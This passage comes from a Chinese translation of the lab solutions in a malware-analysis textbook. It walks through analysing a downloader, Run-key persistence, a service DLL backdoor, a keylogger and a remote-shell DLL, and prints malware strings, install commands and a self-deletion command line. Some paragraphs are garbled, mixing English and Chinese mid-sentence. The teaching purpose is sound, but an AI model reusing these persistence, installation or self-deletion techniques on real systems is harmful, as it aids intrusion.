updater.exe 可能表明了存储额外恶意软件的位置，准备下载。

6.

资源部分包含另一个 PE 可执行文件。使用 Resource Hacker 将资源保存为二进制数据，然后像分析任何可执行文件一样分析二进制文件。资源部分的可执行文件是一个下载器程序，用于下载额外的恶意软件。

**详细分析**

对于 *Lab01-04.exe* 文件，来自 *VirusTotal.com* 的结果显示该程序与下载器相关。PEview 没有显示该文件被打包或混淆的迹象。

从 *advapi32.dll* 的导入告诉我们程序在处理权限，我们可以假设它试图使用特殊权限访问受保护的文件。从 *kernel32.dll* 的导入告诉我们程序从资源部分加载数据（LoadResource、FindResource 和 SizeOfResource），将文件写入磁盘（CreateFile 和 WriteFile），并在磁盘上执行文件（WinExec）。我们还可以猜测程序因为对 GetWindowsDirectory 的调用而将文件写入系统目录。

检查字符串，我们看到 www.malwareanalysisbok.com/updater.exe，这可能是存储下载恶意代码的位置。

我们还看到了字符串 \system32\wupdmgr.exe，它与对 GetWindowsDirectory 的调用结合，表明在 *C:\Windows\System32\* 下的 *wupdmgr.exe* 文件是由该恶意软件创建或编辑的。

我们现在有相当大的信心认为这个恶意文件下载了新的恶意软件。我们知道它从哪里下载恶意软件，并且可以猜测它存储下载的恶意软件的位置。唯一奇怪的是，程序似乎没有访问任何网络功能。

实验室解决方案

**481**

[www.it-ebooks.info](http://www.it-ebooks.info/)

这款恶意软件最有趣的部分是资源部分。当我们使用 Resource Hacker 打开这款恶意软件时，我们看到一个资源。Resource Hacker 将资源的类型识别为二进制，这意味着任意二进制数据，当我们查看数据时，大部分都是无意义的。但请注意字符串！This program cannot be run in DOS mode. 这个字符串是所有 PE 文件开头 DOS 头中包含的错误消息。因此，我们可以得出结论，这个资源是存储在 Lab01-04.exe 资源部分的附加可执行文件。这在恶意软件中是一种相当常见的技巧。

要继续使用 Resource Hacker 分析此文件，我们点击**操作**

**将资源保存为二进制文件**。在保存资源后，我们使用 PEview 打开文件以分析其中嵌入的文件。查看导入，我们看到嵌入的文件是访问网络功能的文件。它调用了 URLDownloadToFile，这是一个恶意下载者常用的函数。它还调用了 WinExec，这可能会执行下载的文件。

**实验 3-1 解答**

***简答***

1\.

恶意软件看起来是打包的。唯一的导入是 ExitProcess，尽管字符串看起来大部分都很清晰，并没有被混淆。

2\.

恶意软件创建一个名为 WinVMX32 的互斥锁，将其自身复制到 *C:\* *Windows\ System32\vmx32to64.exe*，并通过创建注册表键 HKLM\SOFTWARE\Microsoft\Windows\ CurrentVersion\Run\VideoDriver 并将其设置为复制位置来安装自身，以便在系统启动时运行。

3\.

恶意软件在解析 *www.practicalmalwareanalysis.com* 后，发送一个大小一致的 256 字节数据包，其中包含看似随机的数据。

***详细分析***

我们从基本的静态分析技术开始，查看恶意软件的 PE

文件结构和字符串。图 3-1L 显示，只导入了 *kernel32.dll*。

*图 3-1L：PEview 显示 Lab03-01.exe 的导入只有* **482**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

该二进制文件只有一个导入，即 ExitProcess，如导入地址表中的所示。没有导入，很难猜测程序的功能。这个程序可能是打包的，因为导入很可能会在运行时解析。

**3**

接下来，我们查看字符串，如下所示。

StubPath

SOFTWARE\Classes\http\shell\open\commandV

Software\Microsoft\Active Setup\Installed Components\

test

www.practicalmalwareanalysis.com

admin

VideoDriver

WinVMX32-

vmx32to64.exe

SOFTWARE\Microsoft\Windows\CurrentVersion\Run

SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders AppData

我们不会期望看到字符串，因为导入信息让我们认为文件是打包的，但有许多有趣的字符串，例如注册表位置和域名，以及 WinVMX32、VideoDriver 和 vmx32to64.exe。

让我们看看基本的动态分析技术是否能够显示这些字符串的使用方式。

在我们运行恶意软件之前，我们运行 procmon 并清除所有事件；启动进程资源管理器；并设置一个虚拟网络，包括 ApateDNS、Netcat（监听 80 和 443 端口）以及使用 Wireshark 的网络捕获。

一旦我们运行了恶意软件，我们开始在进程资源管理器中检查进程，如图 3-2L 所示。我们首先在进程列表中点击*Lab03-01.exe*，然后选择**视图****下窗格视图****句柄**。在这个视图中，我们可以看到恶意软件在处创建了一个名为 WinVMX32 的互斥锁。我们还选择**视图****下窗格视图****DLLs**，看到恶意软件动态加载了如*ws2_32.dll*和*wshtcpip.dll*等 DLL，这意味着它具有网络功能。

*图 3-2L：Lab03-01.exe 的进程资源管理器视图*

*显示它创建的互斥锁*

实验解决方案

**483**

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，我们使用 procmon 查找更多信息。我们通过选择**过滤****过滤**来打开过滤对话框，然后设置三个过滤器：一个在进程名称（以显示*Lab03-01.exe*对系统所做的操作），以及在操作上设置两个过滤器，如图 3-3L 所示。我们包括 RegSetValue 和 WriteFile 来显示恶意软件对文件系统和注册表的更改。

*图 3-3L：进程监视器过滤对话框显示已设置在* *进程名称和操作* *上的过滤器*

设置好我们的过滤器后，我们点击**应用**来查看过滤后的结果。条目从数千个减少到图 3-4L 中看到的仅 10 个。请注意，只有一条 WriteFile 条目，有九条 RegSetValue 条目。

*图 3-4L：Procmon 过滤结果（设置了三个过滤器）* 如第三章所述，我们经常需要过滤掉一定量的噪声，如图 3-4L 中的条目 0 和 3 到 9。HKLM\SOFTWARE\Microsoft\Cryptography\RNG\Seed 上的 RegSetValue 是结果中的典型噪声，因为随机数生成器的种子在注册表中不断由软件更新。

我们剩下两个有趣的条目，如图 3-4L 所示。

和。第一个是处的 WriteFile 操作。双击此条目告诉我们，它向*C:\WINDOWS\ system32\vmx32to64.exe*写入了 7,168 字节，这个文件的大小恰好与*Lab03-01.exe*相同。打开 Windows 资源管理器并浏览到该位置，显示这个新创建的文件具有与*Lab03-01.exe*相同的 MD5 哈希值，这告诉我们恶意软件已经将该文件复制到该名称和位置。这可以是一个有用的基于主机的恶意软件指示器，因为它使用硬编码的文件名。

**484**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，我们双击图中的条目，看到恶意软件向注册表中写入以下数据：

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\VideoDriver:C:\WINDOWS\system32\vmx32to64.exe **3**

这个新创建的注册表条目用于在系统启动时使用 HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 位置运行 *vmx32to64.exe*，并创建一个名为 VideoDriver 的键。我们现在可以打开 procmon 的过滤器对话框，移除操作过滤器，并慢慢检查条目以查找我们可能错过的任何信息。

接下来，我们将注意力转向我们为基本动态分析设置的网络分析工具。首先，我们检查 ApateDNS 以查看恶意软件是否执行了任何 DNS 请求。检查输出，我们看到一个对 *www.practicalmalwareanalysis.com* 的请求，这与之前显示的字符串列表相匹配。（为确保恶意软件有机会执行额外的 DNS 请求，如果有的话，请执行分析过程几次以查看 DNS 请求是否更改，或者使用 ApateDNS 的 NXDOMAIN 功能。）我们通过检查以下列表中的 Netcat 结果来完成网络分析。

通过检查 Netcat 结果来完成网络分析，如下所示。

C:\> **nc -l -p 443**

\7⌠ëÅ¿A :°I,j!Yûöí?Ç:lƒh↨O±ⁿ)α←εg%┬∟#xp╧O+╙3Ω☺åiE☼?═■p}»╝/

º_∞~]ò£»ú¿¼▬F^"Äμ▒├

♦∟ªòj╡<û(y!∟♫5Z☺!♀va╪┴╗úI┤ßX╤â8╫²ñö'i¢k╢╓(√Q‼%O¶╡9.▐σÅw♀‼±Wm^┐#ñæ╬°☻/

[⌠│⌡xH╫▲É║‼

x?╦ƺ│ºLƒ↕x┌gYΦ<└§☻μºx)╤SBxè↕◄╟♂4AÇ

看起来我们很幸运：恶意软件似乎通过端口 443 发出信标，而我们正在端口 80 和 443 上使用 Netcat 进行监听。（使用 INetSim 同时监听所有端口。）我们运行这个测试几次，每次的数据似乎都是随机的。

在 Wireshark 中的后续分析告诉我们，信标数据包的大小（256 字节）是一致的，并且看起来包含与通常在端口 443 上运行的 SSL 协议无关的随机数据。

**Lab 3-2 解决方案**

***简短回答***

1.

要将恶意软件作为服务安装，通过 *rundll32.exe* 运行恶意软件的导出安装函数，使用 **rundll32.exe Lab03-02.dll,installA**。

2.

要运行恶意软件，使用 net 命令启动它安装的服务 **net start IPRIP**。

3.

使用 Process Explorer 确定运行服务的进程。

由于恶意软件将在系统上的某个 *svchost.exe* 文件中运行，因此悬停在每一个文件上，直到你看到服务名称，或者使用 Process Explorer 的查找 DLL 功能搜索 *Lab03-02.dll*。

实验室解决方案

**485**

[www.it-ebooks.info](http://www.it-ebooks.info/)

4.

在 procmon 中，你可以使用 Process Explorer 找到的 PID 进行过滤。

5.

默认情况下，恶意软件以服务 IPRIP 安装，显示名称为 Intranet Network Awareness (INA+)，描述为“依赖 INA+，收集和存储网络配置和位置信息，并在信息更改时通知应用程序。”它将自己注册到注册表 HKLM\SYSTEM\CurrentControlSet\Services\IPRIP\ Parameters\ServiceDll: %CurrentDirectory%\Lab03-02.dll 中以实现持久性。如果你将 *Lab03-02.dll* 重命名为其他名称，例如 *malware.dll*，那么它将把 *malware.dll* 写入注册表键，而不是使用 *Lab03-02.dll* 的名称。

6.

恶意软件解析域名 *practicalmalwareanalysis.com* 并通过端口 80 连接到该主机，看起来像是使用 HTTP。它对 *serve.html* 进行 GET 请求并使用 %ComputerName% 的 User-Agent。

Windows XP 6.11\.

***详细分析***

我们从查看 PE 文件结构和字符串的基本静态分析开始。图 3-5L 显示该 DLL 有五个导出，如下所示。导出 ServiceMain 表明该恶意软件需要作为服务安装才能正常运行。

*图 3-5L：Lab03-02.dll 的 PE 视图导出* 以下列表显示了恶意软件中用粗体标出的有趣导入函数。

OpenService

DeleteService

OpenSCManager

**CreateService**

RegOpenKeyEx

**486**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

RegQueryValueEx

RegCreateKey

**RegSetValueEx**

InternetOpen

InternetConnect

**3**

HttpOpenRequest

**HttpSendRequest**

InternetReadFile

这些包括服务操作函数，如 CreateService，以及注册表操作函数，如 RegSetValueEx。导入的网络函数，如 HttpSendRequest，表明恶意软件使用 HTTP。

接下来，我们检查字符串，如下所示。

Y29ubmVjdA==

practicalmalwareanalysis.com

serve.html

dW5zdXBwb3J0

c2xlZXA=

Y21k

cXVpdA==

Windows XP 6.11

HTTP/1.1

quit

exit

getfile

cmd.exe /c

Depends INA+，收集并存储网络配置和位置信息，并在信息更改时通知应用程序。

%SystemRoot%\System32\svchost.exe -k

SYSTEM\CurrentControlSet\Services\

内部网络意识 (INA+)

%SystemRoot%\System32\svchost.exe -k netsvcs

netsvcs

SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost

IPRIP

我们看到一些有趣的字符串，包括注册表位置、域名、独特的字符串如 IPRIP 和 serve.html，以及各种编码字符串。

基本动态技术可能向我们展示这些字符串和导入是如何被使用的。

我们基本静态分析技术的结果使我们相信，该恶意软件需要使用导出的函数 installA 作为服务安装。我们将使用该函数尝试安装恶意软件，但在我们这样做之前，我们将启动 Regshot 以获取注册表的基线快照，并使用 Process Explorer 来监控系统上运行的进程。

在设置好 Regshot 和 Process Explorer 后，我们使用 *rundll32.exe* 安装恶意软件，如下所示：

C:\> **rundll32.exe Lab03-02.dll,installA**

实验室解决方案

**487**

[www.it-ebooks.info](http://www.it-ebooks.info/)

安装恶意软件后，我们使用 Process Explorer 来确认它已终止，确保 *rundll32.exe* 不再在进程列表中。然后，我们使用 Regshot 再次拍摄快照，以查看恶意软件是否已将自己安装在注册表中。

以下列表显示了编辑后的 Regshot 结果。

----------------------------------

添加的键

----------------------------------

HKLM\SYSTEM\CurrentControlSet\Services\IPRIP 

----------------------------------

Values added

----------------------------------

HKLM\SYSTEM\CurrentControlSet\Services\IPRIP\Parameters\ServiceDll:

"z:\Lab03-02.dll"

HKLM\SYSTEM\CurrentControlSet\Services\IPRIP\ImagePath:

"%SystemRoot%\System32\svchost.exe -k netsvcs" 

HKLM\SYSTEM\CurrentControlSet\Services\IPRIP\DisplayName:

"内部网络网络意识 (INA+)" 

HKLM\SYSTEM\CurrentControlSet\Services\IPRIP\Description:

"依赖 INA+，收集和存储网络配置和位置信息，并在此信息更改时通知应用程序。" 

添加的密钥部分显示，恶意软件已将自己安装为 IPRIP 服务。由于恶意软件是一个 DLL，它依赖于可执行文件来启动它。实际上，我们在处看到 ImagePath 被设置为 svchost.exe，这意味着恶意软件将在 *svchost.exe* 进程内部启动。其余的信息，如和处的 DisplayName 和 Description，创建了一个独特的指纹，可以用来识别恶意服务。

如果我们仔细检查字符串，我们会看到 SOFTWARE\Microsoft\Windows NT\ CurrentVersion\SvcHost 和一个消息“您指定的服务名称不在 Svchost//”。

netsvcs，必须是以下之一。如果我们跟随我们的直觉并检查

在 \SvcHost\netsvcs 注册表键中，我们可以看到我们可能使用的其他潜在服务名称，例如 6to4 AppMgmt。运行 Lab03-02.dll，安装 6to4 将在 6to4 服务而不是 IPRIP 服务下安装此恶意软件，如前所述。

在将恶意软件作为服务安装后，我们可以启动它，但首先我们将设置其余的基本动态工具。我们运行 procmon（在清除所有事件后）；启动进程资源管理器；并设置一个虚拟网络，包括 ApateDNS 和 Netcat 监听端口 80（因为我们看到字符串列表中有 HTTP）。

由于此恶意软件作为 IPRIP 服务安装，我们可以使用 Windows 中的 net 命令启动它，如下所示：

c:\> **net start IPRIP**

内部网络网络意识（INA+）服务即将启动。

内部网络网络意识（INA+）服务启动成功。

**488**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

显示名称（INA+）与注册表中找到的信息相匹配的事实告诉我们，我们的恶意服务已启动。

接下来，我们打开进程资源管理器，通过选择**查找****查找句柄或 DLL**来打开**3**，尝试找到恶意软件正在运行的进程。

如图 3-6L 所示，我们进入**Lab03-02.dll**并点击**搜索**。如图所示，结果显示*Lab03-02.dll*是由*svchost.exe*加载的，其进程 ID 为 1024。（具体的 PID 可能因系统而异。）*图 3-6L：在进程资源管理器中搜索 DLL* 在进程资源管理器中，我们选择**视图****下窗格视图****DLLs**，并选择运行进程 ID 为 1024 的*svchost.exe*。图 3-7L 显示了结果。

显示名称 Intranet Network Awareness (INA+)确认恶意软件正在*svchost.exe*中运行，这在我们看到时得到进一步确认，即*Lab03-02.dll*被加载。

*图 3-7L：在进程资源管理器中检查服务恶意软件* 接下来，我们将注意力转向我们的网络分析工具。首先，我们检查 ApateDNS 以查看恶意软件是否执行了任何 DNS 请求。输出显示了一个对*practicalmalwareanalysis.com*的请求，这与之前显示的字符串列表相匹配。

**注意**

*启动服务后需要 60 秒才能看到任何网络流量（程序在尝试网络访问之前会执行 Sleep(60000)）。如果由于任何原因（例如，您忘记设置 ApateDNS），它将在尝试再次连接之前等待 10 分钟。*

实验室解决方案

**489**

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们通过检查 Netcat 结果来完成我们的网络分析，如下所示：

c:\> **nc -l -p 80**

**GET** /serve.html HTTP/1.1

Accept: */*

User-Agent: **MalwareAnalysis2** Windows XP 6.11

主机：practicalmalwareanalysis.com

我们看到恶意软件通过端口 80 执行 HTTP GET 请求（我们自看到字符串列表中的 HTTP 以来一直在端口 80 上监听）。我们多次运行此测试，数据似乎在运行之间是一致的。

我们可以从这些数据中创建几个网络签名。因为恶意软件始终对*serve.html*执行 GET 请求，所以我们可以使用这个 GET 请求作为网络签名。恶意软件还使用了 User-Agent MalwareAnalysis2 Windows XP 6.11。MalwareAnalysis2 是我们恶意软件分析虚拟机的名称（因此 User-Agent 的这一部分在您的机器上会有所不同）。User-Agent 的第二部分（Windows XP 6.11）是一致的，可以用作网络签名。

**实验室 3-3 解决方案**

***简答题***

1.

恶意软件在*svchost.exe*上执行进程替换。

2.

将*svchost.exe*的磁盘映像与其内存映像进行比较，发现它们并不相同。内存映像中有 practicalmalwareanalysis.log 和[ENTER]等字符串，但磁盘映像中却没有。

3.

恶意软件创建日志文件*practicalmalwareanalysis.log*。

4.

程序通过在*svchost.exe*上执行进程替换来启动键盘记录器。

***详细分析***

对于这个实验，我们首先启动进程资源管理器和 procmon。当 procmon 启动时，事件流快速通过，所以我们使用**文件****捕获事件**来切换事件捕获的开和关。（最好在所有动态分析程序启动并准备好执行程序之前关闭事件捕获。）我们使用**过滤器****过滤器**来打开过滤器对话框，然后通过单击**重置**按钮确保仅启用默认过滤器。

*Lab03-03.exe*可以从命令提示符或通过双击其图标运行。一旦运行，*Lab03-03.exe*应该在进程资源管理器中可见。

注意它如何创建子进程*svchost.exe*，然后退出，但留下*svchost.exe*进程作为孤儿进程运行，如图 3-8L 所示。

（一个*孤儿进程*在进程树结构中没有列出父进程。）*svchost.exe*进程成为孤儿进程是非常不寻常且非常可疑的。

**490**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 3-8L：孤儿* svchost.exe *的进程资源管理器视图 3*

我们通过右键单击并选择孤儿*svchost.exe*进程的**属性**来进一步调查。如图 3-8L 所示，该进程看起来是一个有效的*svchost.exe*进程，PID 为 388，但这个*svchost.exe*进程是可疑的，因为*svchost.exe*通常是*services.exe*的子进程。

从相同的属性页面，我们选择**字符串**来显示磁盘上的可执行映像和内存中的字符串。在**映像**和**内存**单选按钮之间切换显示图像之间的显著差异。如图 3-9L 所示，右侧内存中的字符串包含 practicalmalwareanalysis.log 和[ENTER]，分别位于和，这两个字符串都没有在典型的 Windows *svchost.exe*文件中找到，如图左侧所示。

*图 3-9L：进程资源管理器显示* svchost.exe *中通常不包含的字符串*

字符串 practicalmalwareanalysis.log 的存在，以及[ENTER]和[CAPS LOCK]等字符串，表明这个程序是一个键盘记录器。

为了测试我们的假设，我们打开记事本并输入一条简短的消息，以查看恶意软件是否会执行键盘记录。为此，我们使用进程资源管理器中找到的孤儿*svchost.exe*的 PID（388）在 procmon 中创建一个过滤器，以仅显示来自该 PID 的事件。如图 3-10L 所示，*svchost.exe*的 CreateFile 和 WriteFile 事件正在写入名为*practicalmalwareanalysis.log*的文件。（相同的字符串在孤儿*svchost.exe*进程的内存视图中可见。）

实验解决方案

**491**

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 3-10L：svchost.exe（PID 388）的 Procmon 输出*

使用简单的文本编辑器打开 *practicalmalwareanalysis.log* 可以看到你在记事本中输入的按键。我们得出结论，这种恶意软件是一个使用 *svchost.exe* 进程替换功能的关键记录器。

**3-4 实验室解决方案**

***简短答案***

1.

当您通过双击运行此恶意软件时，程序会立即删除自己。

2.

我们怀疑我们可能需要向程序提供命令行参数或缺少的组件。

3.

我们尝试使用字符串列表中显示的命令行参数（如 -in），但这样做并没有结果。需要更深入的分析。

（我们将在第九章的实验室中进一步分析这种恶意软件。）

***详细分析***

我们从基本的静态分析开始，检查 PE 文件结构和字符串。我们看到这种恶意软件导入了网络功能、服务操作函数和注册表操作函数。在下面的列表中，我们注意到一些有趣的字符串。

软件 Microsoft \XPS

\kernel32.dll

HTTP/1.0

GET

什么都没有

下载

上传

睡眠

cmd.exe

>> 空白

/c del

http://www.practicalmalwareanalysis.com

**492**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

NT AUTHORITY\LocalService

管理服务

.exe

%SYSTEMROOT%\system32\

k:%s h:%s p:%s per:%s

**3**

-cc

-re

-in

我们看到诸如域名和注册表位置软件 Microsoft \XPS 之类的字符串。下载和上传之类的字符串，结合 HTTP/1.0

字符串，表明这种恶意软件是一个 HTTP 后门。字符串 -cc、-re 和 -in 可能是命令行参数（例如 -in 可能代表安装）。让我们看看基本的动态技术是否能够显示这些字符串是如何被使用的。

在我们运行恶意软件之前，我们运行 procmon 并清除所有事件，启动进程资源管理器，并设置虚拟网络。当我们运行恶意软件时，它似乎立即删除了自己，在进程资源管理器中观察时我们没有看到其他任何有趣的事情。

接下来，我们使用带有进程名称 *Lab03-04.exe* 过滤器的 procmon。

没有任何有趣的 WriteFile 或 RegSetValue 条目，但在进一步挖掘后，我们发现了一个进程创建的条目。双击此条目会弹出图 3-11L 所示的对话框，我们看到恶意软件正在使用 "C:\WINDOWS\system32\cmd.exe" /c del Z:\ Lab03-04.exe >> NUL 从系统中删除自己，如图所示。

*图 3-11L：Procmon 查看用于自我删除的进程创建* 我们可以尝试使用我们在字符串列表中看到的命令行选项（如 -in）来运行恶意软件，但所有这些尝试都失败了，并且程序会自我删除。在深入挖掘恶意软件之前，我们在这里使用基本的动态技术没有更多的事情可以做。（我们将在第九章的实验室中重新访问这种恶意软件。）实验室解决方案

**493**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**5-1 实验室解决方案**

***简短答案***

1.

DllMain 位于.text 部分的 0x1000D02E。

2.

gethostbyname 的导入信息位于 .idata 部分的 0x100163CC 处。

3.

在恶意软件的五个不同函数中，gethostbyname 导入被调用了九次。

4.

如果在 0x10001757 处对 gethostbyname 的调用成功，恶意软件将发起对 pics.practicalmalwareanalysis.com 的 DNS 请求。

5.

IDA Pro 已经识别了位于 0x10001656 处函数的 23 个局部变量。

6.

IDA Pro 已经识别了位于 0x10001656 处函数的一个参数。

7.

字符串 \cmd.exe /c 位于 0x10095B34 处。

8.

那段代码看起来是在为攻击者创建一个远程 shell 会话。

9.

操作系统版本存储在全局变量 dword_1008E5C4 中。

10. 查询并通过远程 shell 连接发送位于 HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ WorkTime 和 WorkTimes 的注册表值。

11. PSLIST 导出会将进程列表通过网络发送或找到列表中的特定进程名称，并获取其信息。

12. GetSystemDefaultLangID、send 和 sprintf 是从 sub_10004E79 调用的 API 调用。这个函数可以被重命名为更有用的名称，如 GetSystemLanguage。

13. DllMain 直接调用 strncpy、strnicmp、CreateThread 和 strlen。在深度为 2 时，它调用各种 API 调用，包括 Sleep、WinExec、gethostbyname 以及许多其他网络功能调用。

14. 恶意软件将休眠 30 秒。

15. 参数是 6、1 和 2。

16. 这些参数对应于三个符号常量：IPPROTO_TCP、SOCK_STREAM 和 AF_INET。

17. 在 0x100061DB 处使用 in 指令进行虚拟机检测，0x564D5868h 对应于 VMXh 字符串。使用交叉引用，我们看到调用函数中有 "Found Virtual Machine" 字符串。

18. 随机数据似乎存在于 0x1001D988 处。

19. 如果你运行 *Lab05-01.py*，随机数据会被解密以显示一个字符串。

20. 通过按键盘上的 A 键，我们可以将其转换为可读的字符串：xdoor 是这个后门，为 Practical Malware Analysis Lab 解码的字符串 :)1234。

21. 脚本通过使用 XOR 对 0x50 字节数据与 0x55 进行异或操作，并使用 PatchByte 修改 IDA Pro 中的字节来工作。

**494**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

***详细分析***

一旦我们将恶意 DLL 加载到 IDA Pro 中，就会直接跳转到 DllMain 的 0x1000D02E 处。（您可能需要通过使用 **选项****常规**并检查 **行前缀** 来在图形视图中显示行号，或者您可以通过按空格键在图形视图和传统视图之间切换，这允许您在不更改选项的情况下看到行号。）DllMain 是 **5**

我们想要开始分析的地方，因为从 DllEntryPoint 到 DllMain 执行的所有代码很可能是由编译器生成的，我们不希望陷入分析编译器生成代码的困境。

为了回答第 2 至 4 个问题，我们首先查看此 DLL 的导入项，通过选择**查看****打开子视图****导入**。在这个列表中，我们找到 gethostbyname 并双击它以在反汇编中查看。gethostbyname 导入位于二进制文件.idata 部分的 0x100163CC 位置。

要查看调用 gethostbyname 的函数数量，我们通过在 gethostbyname 上按 CTRL-X 来检查其交叉引用，这将弹出一个窗口，如图 5-1L 所示。窗口底部的文本“第 1 行，共 18 行”告诉我们 gethostbyname 有九个交叉引用。

IDA Pro 的一些版本会重复计算交叉引用：p 是一个引用，因为它正在被调用，r 是一个引用，因为它是一个“读取”引用（因为它为导入调用 dword ptr [...]，CPU 必须读取导入然后调用它）。仔细检查交叉引用列表，您可以看到 gethostbyname 被五个不同的函数调用。

*图 5-1L：gethostbyname 的交叉引用*

我们按键盘上的 G 键快速导航到 0x10001757。一旦到达这个位置，我们看到以下代码，它调用了 gethostbyname。

Solutions to Labs

**495**

[www.it-ebooks.info](http://www.it-ebooks.info/)



1000174E mov eax, **off_10019040**

10001753 add eax, 0Dh 

10001756 push eax

10001757 call ds:**gethostbyname**

gethostbyname 方法接受单个参数——通常是一个包含域名字符串。因此，我们需要向后工作并找出在调用 gethostbyname 时 EAX 中是什么。看起来 off_10019040

is moved into EAX。如果我们双击该偏移量，我们看到字符串[This is RDO]pics.practicalmalwareanalysis.com 位于该位置。

如您所见在，指针在字符串中推进了 0xD 字节，这得到了指向字符串 pics.practicalmalwareanalysis.com 的指针存放在 EAX 中

对于对 gethostbyname 的调用。图 5-2L 显示了内存中的字符串，以及将 0xD 加到 EAX 上如何将指针推进到内存中 URL 的位置。该调用将执行 DNS 请求以获取域的 IP 地址。

EAX

EAX + 0xD

**[**

**T**

**h**

**i**

**s**

**i**

**s**

**R D O**

**]**

p

i

c

s

.

p

r

a

c

t

i

c

a

l

m a

l

w a

r

e

a

n a

l

y

s

i

s

.

c

o m

*图 5-2L：调整字符串指针以访问 URL*

To answer questions 5 and 6,

we press G on the keyboard to navi-

gate 到 0x10001656 以便分析

ylyze sub_10001656\. 在图 5-3L 中，我们看到

see what IDA Pro has done to rec-

ognize and label the function’s

local variables and parameters. The

labeled local variables correspond

到负偏移量，我们用正偏移量计数，并且我们

23 of them, most of which are pre-

pended with var_。免费版

sion of IDA Pro 只计算 20 个局部

变量，所以你

using may detect a slightly different

number of local variables. The

parameters are labeled and refer-

enced with positive offsets, and we

see that IDA Pro has recognized

*图 5-3L：IDA Pro 函数布局—*

one parameter for the function

*recognizing local variables and parameters*

labeled arg_0\.

**496**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

To answer questions 7 through 10, we begin by viewing the strings for this DLL by selecting **View****Open Subviews****Strings**. In this list, double-click \cmd.exe /c to see it in the disassembly. Notice that the string resides in the xdoors_d section of the PE file at 0x10095B34\. On checking the cross-references to this string, we see that there is only one at 0x100101D0, where this string is pushed onto the stack.

Examining the graph view of this function shows a series of memcmp func-5

tions that are comparing strings such as cd, exit, install, inject, and uptime.

我们还看到，在函数中较早的位置（0x1001009D）的字符串引用

contains the string This Remote Shell Session. Examining the function and the calls it makes shows a series of calls to recv and send. Using these three pieces of evidence, we can guess that we are looking at a remote shell session function.

The dword_1008E5C4 is a global variable that we can double-click (at 0x100101C8) to show its location in memory at 0x1008E5C4, within the

.data section of the DLL. Checking the cross-references by pressing CTRL**-**X

显示它被引用了三次，但只有一次引用修改了 dword_1008E5C4。以下列表显示了 dword_1008E5C4 是如何被修改的。

10001673 call sub_10003695

10001678 mov dword_1008E5C4, eax

We see that EAX is moved into dword_1008E5C4, and that EAX is the return value from the function call made in the previous instruction.

Therefore, we need to determine what that function returns. To do so, we examine sub_10003695 by double-clicking it and looking at the disassembly.

The sub_10003695 function contains a call to GetVersionEx, which obtains information about the current version of the OS, as shown in the following listing.

100036AF call ds:**GetVersionExA**

100036B5 xor eax, eax

100036B7 cmp [ebp+VersionInformation.dwPlatformId], 2

100036BE setz al

The dwPlatformId is compared to the number 2 in order to determine how to set the AL register. AL will be set if the PlatformId is VER_PLATFORM_WIN32_NT.

This is just a simple check to make sure that the OS is Windows 2000 or higher, and we can conclude that the global variable will typically be set to 1\.

As previously discussed, the remote shell function at 0x1000FF58 contains a series of memcmp functions starting at 0x1000FF58\. At 0x10010452, we see the memcmp with robotwork, as follows:

10010444 push 9 ; Size

10010446 lea eax, [ebp+Dst]

1001044C push offset aRobotwork ; "robotwork"

10010451 push eax ; Buf1

10010452 call memcmp

Solutions to Labs

**497**

[www.it-ebooks.info](http://www.it-ebooks.info/)

10010457 add esp, 0Ch

1001045A test eax, eax

1001045C jnz short loc_10010468 

1001045E push [ebp+s]  ; s

10010461 call sub_100052A2 

在处的 jnz 不会被执行，如果字符串匹配 robotwork，则处的调用将被执行。检查 sub_100052A2，我们看到它查询 HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WorkTime 和 WorkTimes 注册表，然后通过传递给函数的处的网络套接字返回此信息。

要回答第 11 个问题，我们首先查看这个 DLL 的导出

通过选择**视图****打开子视图****导出**。我们在列表中找到 PSLIST 并双击它，将光标移动到 0x10007025，这是导出代码的开始。这个函数似乎有两种路径，取决于 sub_100036C3 的结果。sub_100036C3 函数检查操作系统版本是否为 Windows Vista/7 或 XP/2003/2000。两个代码路径都使用 CreateToolhelp32Snapshot 来帮助它们获取进程列表，我们从字符串和 API 调用中推断出来。两个代码路径都使用 send 通过套接字返回进程列表。

要回答第 12 和第 13 个问题，我们在函数名上选择**视图****图形****从...查看交叉引用**，然后通过按键盘上的 G 键并输入**0x10004E79**来转到 sub_10004E79。

图 5-4L 显示了为 sub_10004E79 绘制交叉引用的结果。我们看到这个函数调用了 GetSystemDefaultLangID 和 send。

这条信息告诉我们该函数可能通过网络套接字发送语言标识符，因此我们可以右键单击函数名并给它一个更有意义的名称，例如 send_languageID。

**注意**

*进行这样的快速分析是了解* *二进制文件* *的高级概述的简单方法。这种方法在分析大型二进制文件时尤其有用。*

*图 5-4L：从 sub_10004E79 的交叉引用图*

**498**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

